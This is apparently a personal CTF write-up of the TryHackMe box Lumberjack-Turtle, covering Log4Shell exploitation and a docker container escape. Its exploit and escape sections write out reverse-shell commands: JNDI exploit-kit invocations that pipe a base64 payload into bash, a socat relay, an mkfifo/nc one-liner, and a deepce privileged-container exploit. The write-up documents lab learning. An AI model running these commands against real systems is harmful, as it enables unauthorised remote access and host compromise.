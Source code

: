 # Lumberjack-Turtle Writeup

Name: Lumberjack-Turtle
Date:  21/4/2024
Difficulty:  Medium
Goals:  
- Use the JNDI exploit toolkit and Ysoserial
Learnt:
- better log4j exploitation
- disks are not all default named and I had a bias for that `fdisk` for the win
Beyond Root:
- Getting it done is enough

While trying to do a HTB season 5 box I was hoping that a similar service was similarly vulnerable, therefore this Helped-Through exist while I wait on some background recon. I just followed along with [xplo1t-sec](https://github.com/xplo1t-sec/CTF/blob/master/TryHackMe/LumberjackTurtle/README.md)

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](TryHackMe/Markdown/Lumberjack-Turtle/Screenshots/ping.png)

www-root on port 80
![](javabeingthehint.png)

Cause errors for enumeration
![](forcinganerrorlike-xplo1t-sec.png)

A reminder to use multiple wordlists
![](approximate-logs.png)
And here it is 
![](bigwltotheresecue.png)
~logs directory
![](nologsnocrimegodeephint.png)
and because this is a help thorough and there are hints for Log4j 
![](lumberjackturtlage.png)
...and the log4j page with the hint:
![](sepcialhintheaders.png)

https://apkash8.medium.com/exploiting-the-log4j-vulnerability-cve-2021-44228-4b8d9d5133f6
![](justanoobarticle.png)

![](stage6.png)

In my haste to continue on and understand why JDK 1.7 was used in relation to the information provided above and the int from the box. I presume now as of 2024 and season 4 HTB behind me that JDK 1.7 is the best for Ysoserial.

## Exploit

[Got Milk commercial](https://www.youtube.com/watch?v=Zy63_nKaoy8), got this sick working tool for Log4J recommended by [xplo1t-sec](https://github.com/xplo1t-sec/CTF/blob/master/TryHackMe/LumberjackTurtle/README.md)
: [https://github.com/pimps/JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit)
![](jdniei-options.png)
```bash
git clone https://github.com/pimps/JNDI-Exploit-Kit.git
cd JNDI-Exploit-Kit
java -jar target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L "$yourLdapServer$:1389" -C "echo $base64ReverseShellage | base64 -d | bash"
```

I then helpfully reminded of HTB season 4 JDK fun time.
```bash
apt update
apt install openjdk-11-jdk -y
apt-get install maven
mvn -v
git clone https://github.com/veracode-research/rogue-jndi.git
cd rogue-jndi  
mvn package

java -jar target/RogueJndi-1.1.jar --command "bash -c {echo, $ENCODEDPAYLOAD} | {base64,-d}|{bash,-i}" --hostname "$IP"

java -jar target/RogueJndi-1.1.jar --command "bash -c {echo, $base64ReverseShellage
} | {base64,-d}|{bash,-i}" --hostname "10.11.3.193"

```

Pimp's JNDI exploit kit works
![](nice.png)

and flag
![](androot.png)
But in a docker container...

## Escaping the container and rooting the host machine

![](containmewhydontya.png)

I could use the deepce enumeration script, but I just wanted to walk through it manually first

![](dockerprocess.png)

For the screenshot of mindmelting fun
![](cyclindericaltrippyfilesystem.png)

Trying to connect to the host for docker version exploits
![](noenumeratingtheinternalhostsinternalnetworkingfordocker.png)

now for namespaces and capabilities
![](nonsenternamespacesorcapsh.png)

Deepce output
![](deepce.png)

For whatever reason socat did not want to work...
```bash
nohup /tmp/socatx64.bin TCP-LISTEN:8000,reuseaddr,fork TCP:10.11.3.193:8443 &

# 
# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 172.17.0.2 8000 >/tmp/f

./deepce.sh --no-enumeration --exploit PRIVILEGED --command "echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxNzIuMTcuMC4yIDgwMDAgPi90bXAvZg== | base64 -d | bash"
```

A better way for disk enumeration, xvda is a disk name I have not seen
![](betterway.png)

![](dotfilesdonothidethings.png)

![](whythreedots.png)
and finally
![](becauseyoucaniguess.png)
## Post-Root-Reflection  

- Better Log4J exploitation
- Disk are sometimes named different things 
## Beyond Root

- [Lunasec.io blog post on Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/)
- [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)
- [CVE-2021-44228 – Log4j 2 Vulnerability Analysis](https://www.randori.com/blog/cve-2021-44228/)

